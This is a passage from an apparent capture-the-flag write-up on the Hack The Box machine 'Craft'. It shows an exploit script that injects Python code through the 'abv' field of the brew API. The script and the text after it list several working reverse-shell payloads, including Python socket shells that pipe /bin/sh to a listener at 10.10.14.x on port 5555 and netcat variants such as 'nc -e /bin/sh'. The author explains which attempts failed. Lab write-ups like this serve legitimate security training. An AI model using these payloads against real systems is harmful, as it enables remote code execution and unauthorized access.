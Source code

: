 #payload = "__import__('subprocess').Popen('nc 10.10.15.247 5555 &',shell=True)"
#payload = "compile("""for x in range(1):\\n import socket,subprocess,os\\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\\n s.connect(("10.10.14.120",5555))\\n os.dup2(s.fileno(),0)\\n os.dup2(s.fileno(),1)\\n os.dup2(s.fileno(),2)\\n p=subprocess.call(["/bin/sh","-i"])""",'','single')"
#payload = '(import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.24",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]))'
payload = "exec(\"import socket, subprocess\\ns = socket.socket()\\ns.connect((\'%s\',%i))\\nwhile 1:\\n  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)\\n  s.send(proc.stdout.read()+proc.stderr.read())\")" % (conAddr,conPort)

print(payload + '\n')

brew_url = "https://api.craft.htb/api/brew/"
brew_headers = {"X-Craft-API-Token": token,"Content-Type": "application/json"}
brew_data = {"name":"I Ponder Ale","brewer":"Ponder Brewery","style":"IPA","abv":payload}

r = requests.post(brew_url, headers=brew_headers, json=brew_data, verify=False)
print(r.text)
{% endhighlight %}

That sloppy exploit script actually shows several of my attempts at getting the shellcode to work. I&#8217;ll explain some of the attempts, why they didn&#8217;t work, and what I ended up using.

## Shellcode

There is almost always more than one way to write shellcode for any given exploit. So you may get one to work that I didn&#8217;t.

### Attempt 1, Netcat:

The most obvious shellcode here would be to get brew.py to execute a Netcat command back to a listener on our box. Tried that, didn&#8217;t work. I&#8217;m sure I forgot some of the attempts, but here are some variations I tried. All shellcode attempts were put in a variable called &#8216;payload&#8217;.

{% highlight plain_text %}
payload = "\_\_import\_\_('os').system('nc 10.10.14.61 5555 &')"  
payload = "\_\_import\_\_('os').popen('nc -e /bin/sh 10.10.14.61 5555 &')"  
payload = "\_\_import\_\_('os').run('nc 10.10.14.61 5555 &')"  
payload = "\_\_import\_\_('subprocess').Popen('nc 10.10.14.16 5555',shell=True)"
{% endhighlight %}

Actually, that last one did connect back to my listener, but immediately closed no matter how I tried to issue the command. I read somewhere that it could have been due to netcat reading input from the python script and getting an EOF instead. So I tried setting it up with input and output file descriptors like this:

{% highlight plain_text %}
payload = "\_\_import\_\_('subprocess').Popen('nc 10.10.14.16 5555 &',shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)"
{% endhighlight %}

Not really sure what was causing netcat to fail, but it did.
